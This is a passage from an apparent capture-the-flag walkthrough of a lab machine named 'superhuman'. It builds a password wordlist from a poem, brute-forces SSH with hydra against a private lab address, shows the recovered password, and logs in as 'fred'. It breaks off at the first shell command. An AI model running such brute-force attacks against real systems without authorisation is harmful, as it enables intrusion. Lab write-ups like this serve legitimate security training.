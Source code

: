 - Intresting, we found the poem!!

<br>

## Exploitation

#### >> Create wordlist from the poem
```shell
┌──(kali㉿kali)-[~]
└─$ cat pass.txt 
fred
lonely
scared
love
salome
schopenhauer
asshole
ugly
stupid
peephole
switch
love
bitch
fuck
BABY
```

#### >> Brute Force SSH with this creds
```shell
┌──(kali㉿kali)-[~]
└─$ hydra -l fred -P pass.txt 192.168.0.140 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 05:30:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 15 login tries (l:1/p:15), ~4 tries per task
[DATA] attacking ssh://192.168.0.140:22/
[22][ssh] host: 192.168.0.140   login: fred   password: schopenhauer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 05:30:16
```

- And boom we got the access to machine!

```shell

┌──(kali㉿kali)-[~]
└─$ ssh fred@192.168.0.140          
The authenticity of host '192.168.0.140 (192.168.0.140)' can't be established.
ED25519 key fingerprint is SHA256:uMQFM7I4Jh7Aalpln+uDJju+nTUifr7VU8OTI1+E7Uc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.140' (ED25519) to the list of known hosts.
fred@192.168.0.140's password: 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  1 03:36:39 2021 from 192.168.0.28
fred@superhuman:~$ whoami
```